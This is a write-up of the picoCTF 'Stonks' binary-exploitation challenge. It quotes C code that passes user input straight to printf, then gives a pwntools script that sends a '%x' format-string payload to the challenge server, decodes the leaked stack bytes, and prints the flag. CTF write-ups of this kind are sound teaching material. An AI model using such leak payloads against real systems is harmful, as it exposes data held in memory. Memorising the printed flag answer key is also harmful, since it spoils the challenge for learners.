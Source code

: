 # picoCTF Stonks Write Up

## Details:
Points: 20

Jeopardy style CTF

Category: Binary Exploitation

Comments: I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 53437

## Write up:

Looking through vuln.c we find an interesting function:

```python
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

This function reads the flag onto the stack and then asks the user to enter input before printing it using printf. Based on this we know that this is a format string vulnerability and that we want to read off of the stack.

I then wrote the following script to connect to the server and send lots of %x (prints stack) before reading and parsing that to ascii:

```python
# import pwntools
from pwn import *

# string to write to
s = ""

# open up remote connection
r = remote('mercury.picoctf.net', 53437)

# get to vulnerability
r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")

# send string to print stack
r.send("%x" + "-%x"*40 + "\n")

# receive until the line we want
r.recvline()

# read in line
x = r.recvline()

# remove unwanted components
x = x[:-1].decode()

# parse to characters
for i in x.split('-'):
	if len(i) == 8:
		a = bytearray.fromhex(i)

		for b in reversed(a):
			if b > 32 and b < 128:
				s += chr(b)

# print string
print(s)
```

When run this program prints:

```
Opening connection to mercury.picoctf.net on port 53437: Done
M!MpicoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}@$0E@x%Eo
```

And the flag was:

```
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
```